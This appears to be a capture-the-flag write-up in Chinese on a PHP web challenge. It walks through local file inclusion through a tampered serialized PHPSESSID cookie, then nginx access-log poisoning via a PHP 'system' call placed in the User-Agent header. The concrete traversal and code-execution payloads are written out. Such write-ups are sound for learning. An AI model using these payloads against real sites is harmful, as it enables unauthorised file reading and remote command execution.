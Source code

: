 ## 總結

漏洞：
- LFI



## 觀察

### flag 產生

抓網站程式碼下來，可以知道 flag 檔案名稱是亂數產生

```
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

### PHPSESSID 產生

抓程式碼看 index.php
```
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 
```

他是序列化後，用 base64 encode 

我用 chrome plugin: `cookie editor`

撈下來 decode
```
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

那這邊改為底下，在 encode
```
O:9:"PageModel":1:{s:4:"file";s:37:"../../../../../../../../../etc/passwd";}
```

直接用 cookie editor 改完就會看到有密碼
`LFI`

這邊可以看到密碼最底下是
```
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```

知道是 nginx ，那去讀一下 log: `/var/log/nginx/access.log`


log 長相如下
```
HTTP/1.1" "http://178.128.163.152:32485/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36" 111.71.214.14 - 200 "GET /static/js/production.js
```

他會在 log 中放入 user-agent ，所以嘗試放 php code 到 user-agent 裡面
這邊放
```
<?php system('ls /');?>
```

之後就是回去看 log 看到 flag 名稱

然後再用 LFI 去讀 flag 即可 